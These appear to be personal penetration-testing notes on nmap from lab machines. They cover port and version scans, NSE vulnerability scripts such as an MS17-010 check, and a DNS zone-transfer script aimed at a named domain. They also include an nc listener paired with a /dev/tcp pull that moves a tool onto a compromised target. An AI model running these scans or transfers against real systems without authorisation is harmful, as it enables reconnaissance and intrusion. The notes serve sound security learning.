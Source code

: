 # 💢 nmap

Tags: #💢
Related to: 
See also: [[nping]], [[ndiff]], [[ncat]]
Previous: [[Information Gathering]]

## Description
Nmap (“Network Mapper”) is a free and open source (license) utility for network discovery and security auditing. Many systems and network administrators also find it useful for tasks such as network inventory, managing service upgrade schedules, and monitoring host or service uptime. Nmap uses raw IP packets in novel ways to determine what hosts are available on the network, what services (application name and version) those hosts are offering, what operating systems (and OS versions) they are running, what type of packet filters/firewalls are in use, and dozens of other characteristics. It was designed to rapidly scan large networks, but works fine against single hosts. Nmap runs on all major computer operating systems, and official binary packages are available for Linux, Windows, and Mac OS X. In addition to the classic command-line Nmap executable, the Nmap suite includes an advanced GUI and results viewer (Zenmap), a flexible data transfer, redirection, and debugging tool (Ncat), a utility for comparing scan results (Ndiff), and a packet generation and response analysis tool (Nping).

Nmap was named “Security Product of the Year” by Linux Journal, Info World, LinuxQuestions.Org, and Codetalker Digest. It was even featured in twelve movies, including The Matrix Reloaded, Die Hard 4, Girl With the Dragon Tattoo, and The Bourne Ultimatum.

## Usage Examples

### Fine order to scan new host

	nmap -sC -sV -oA nmap/reddish 10.10.10.94								    // default script & version scan on top 1000 ports
	nmap -p0- -T5 --max-retries 0 -v -oA nmap/reddish-all-ports 10.10.10.94	// all ports quickly; no retries
	nmap -p0- -T5 --max-retries 0 -v -oA nmap/reddish-all-ports 10.10.10.94	// retry on missed ports due to speed/retries
	nmap -p 1880 -sC -sV -oA nmap/reddish-targeted 10.10.10.94				// targeted scan

### Get static binary onto target machine [^1]

	nc -lvnp 80 < nmap						// kali
	cat < /dev/tcp/10.10.16.12/80 > nmap	// target
	chmod +x nmap

### OS / version detection, traceroute, and script scanning
	nmap -A -p0- --min-rate=1000 -Pn 10.10.110.100

### Fastest timing, no retransmission

	nmap -sC -sV -oA nmap/allports-reddish -Pn -p0- -T5 --max-retries 0 -v 10.129.172.204

```
Rarely use this as if it misses the port, it comes back empty.
```

### Ping sweep

	nmap -sn -T4 10.10.110.0/24 -oN active-hosts

### Scan using a specified script

	nmap --script smb-os-discovery.nse -p445 10.10.10.40

### Provide argument to script

	sudo nmap -sN -n --script /usr/share/nmap/scripts/dns-zone-transfer.nse --script-args domain=lightspeedhosting.com,server=NS1.LIGHTSPEEDHOSTING.COM

### Get a comma-separated list of port numbers.
    ports=$(nmap -p0- --min-rate=1000 -T4 10.129.78.66 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)

### Do a default script and version check on those ports, displaying only open (or possibly open) ports.  
	nmap -sC -sV -p$ports 10.129.78.66 --open

### Set round trip time to receive a response from a slow service

	netcat <port>
	nmap <port> --min-rtt-timeout

### Scan top 1,000 TCP Ports

	nmap -sT --top-ports 1000 -v -oG -

### Scan top 1,000 UDP Ports:

	nmap -sU --top-ports 1000 -v -oG -

### Grab banners

	nmap -sV --script=banner scanme.nmap.org

### Sort ports by order of use frequency

	sort -r -k3 /usr/share/nmap/nmap-services

### NSE

#### Search for Microsoft Security Bulletin
	locate ms17-010 | grep.nse$

#### Examine script
	nmap --script-help=smb-vuln-ms17-010.nse
	less /usr/share/nmap/scripts/smb-vuln-ms17-010.nse
	
#### See which NSE category a script is in
	/categories <Enter>	// categories = {"vuln", "safe"}

#### Ways to run a script
	nmap -p 445 --script safe  
	nmap -p 445 --script smb-vuln-ms17-010  
	nmap -p 445 --script smb-vuln-ms17-010.nse

#### Run safe scripts
	nmap -p 445 --script safe -Pn -n -oA blue-safe-scripts 10.129.2.85

#### See all categories scripts can be in
    grep -r categories /usr/share/nmap/scripts/*.nse

#### Print NSE categories
    grep -r categories /usr/share/nmap/scripts/*.nse | grep -oP \".*?\" | sort -u

#### Run scripts whose categories are both vulnerable and safe.
	nmap -p 445 --script "vuln and safe" -Pn -n -oA blue-vuln-and-safe-scripts 10.129.2.85

### Common ports

**Top 20**
80, 23, 443, 21, 22, 25, 3389, 110, 445, 139, 143, 53, 3306, 8080, 1723, 111, 995, 993, 5900

**Windows**  
135, 137-139, 445, 3389  
  
**Linux**  
22, 11  
  
Important Services | Ports
-------------------|------
MSSQL|				1433, 1434
Oracle|				1521, 1630
DB2|				50000, 50001
SAP|				3200, 3300
Prostgres|			5432
MariaDB, MySQL|		3306  
Informix|			9088, 9089  
ICS Protocols|		502 (Modbus), 20000 (DNP3), 44818 (Ethernet/IP)

### Additional TCP scans

#### ACK Scan (-sA)

	- Scan through an "established" filter on a router.  
	- Doesn't reliably tell us if a port is open or closed,  
	- but is useful for identifying hosts (network mapping).  
  
####  FIN Scan (-sF)

	- Set FIN bit of all scan packets.
  
#### Null Scan (-sN)

	- Set all control bits to 0.
  
#### Xmas Tree Scan (-sX)

	- Set FIN, PSH, URG, "lighting up the packet like a Christmas tree".
  
#### Maimon Scan (-sM)

	- Set FIN and ACK bits. Useful on some BSD-derived systems.


### IPv6
	nmap -Pn -sV -6 fe80::20c0 -e eth0 --packet-trace

	ping6 -I eth0 ff02::1	Multicast address for all link-local IPv6 nodes.
	ping6 -I eth0 ff02::2	Multicast address for all link-local IPv6 routers.


### Runtime interaction
	p		Turn on packet tracing.  
	v		Increase verbosity.  
	d		Increase debugging level.  
	Shift	Function inverted when pressing p, v, or d.

---

## References

[^1]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap